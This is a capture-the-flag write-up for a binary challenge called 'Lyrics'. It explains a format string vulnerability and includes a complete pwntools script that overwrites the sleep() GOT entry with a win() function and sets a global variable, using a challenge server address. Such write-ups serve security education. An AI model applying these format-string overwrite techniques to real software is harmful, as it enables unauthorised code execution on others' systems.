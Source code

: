 # Lyrics

Author v10l3nt

## Description

We started creating a binary that found ryhmes for us. But bitcoin crashed and we decided to take a nap with all of our problems.

0.cloud.chals.io:29376

## Overview

The binary is vulnerable to a simple format string exploit that can overwrite a GOT entry like CTF-Editor.

The offset needed was determined using GDB to manully find the offset of 6. The offset was then used with pwntools' `fmtstr_payload()` function to generate two valid payloads to overwrite both the `sleep()` GOT entry to `win()` and the `problem` variable to `98`.

## Solution 

```python
from pwn import *
from pwnlib.fmtstr import *

binary = args.BIN

context.terminal = ['tmux', 'splitw', '-h']
e = context.binary = ELF(binary, checksec=False)
r = ROP(e)

gs = '''

'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 29376)
    else:
        return process(e.path)

p = start()

sleep = e.got['sleep']
win = e.sym['win']
prob = e.sym['problem']

offset = 6
got_overwrite = fmtstr_payload(offset, {sleep: win})
prob_overwrite = fmtstr_payload(offset, {prob: 98})

p.recvuntil(b'>>>')
p.sendline(got_overwrite)
p.recvuntil(b'>>>')
p.sendline(prob_overwrite)
p.recvuntil(b'Congratulations: ')

p.interactive()

```
